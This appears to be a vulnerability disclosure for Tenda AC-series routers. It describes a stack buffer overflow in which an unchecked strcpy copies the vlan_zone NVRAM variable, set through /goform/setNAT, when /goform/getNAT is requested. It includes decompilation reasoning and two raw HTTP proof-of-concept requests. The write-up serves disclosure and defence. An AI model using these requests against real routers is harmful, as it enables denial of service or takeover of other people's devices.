 # Tenda Router Vulnerability

This vulnerability exists in  module `IPTV` of `/goform/getNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `SUB_8007D1EC` function.(page  /goform/getNAT)

![pic/Untitled.png](pic/Untitled.png)

In this function, it will use `nvram_get("vlan_zone");` to get an NVRAM variable, which is then placed in a V11 variable. After that ,it will use `Strcpy (v34, v11);` to put V11 on V34 without any security check.

The  `vlan_zone`  NVRAM variable can be controlled in the sub_8007D508 function.

![pic/Untitled%201.png](pic/Untitled%201.png)

You can see that it's assigned by v8.

![pic/Untitled%202.png](pic/Untitled%202.png)

Initially v8 is what we inputed, so the `vlan_zone` NVRAM variable becomes manageable.

![pic/Untitled%203.png](pic/Untitled%203.png)

It is also  easy to get the program to `LABEL_21` by simply setting `IPTVEn` to true.

Thus, by first setting the `vlan_zone` on the page `/goform/setNAT` and then requesting the page `/goform/getNAT`, an attacker can easily perform a denial-of-service attack or remote code execution using crafted overflow data.

## POC

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 59
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=IPTV&IPTVEn=true&VLANArea=aaaaaaaaa&VLANID=4&VLANSelect=
```

```
GET /goform/getNAT?random=0.7312766635668926&modules=IPTV HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Verify

Vulnerability demo

![pic/Untitled%204.png](pic/Untitled%204.png)

![pic/Untitled%205.png](pic/Untitled%205.png)

The absence of a `VLANArea` is a proof that the entered character has been passed to the `vlan_zone` NVRAM variable.

If the number of characters were longer, it would be enough to overflow.
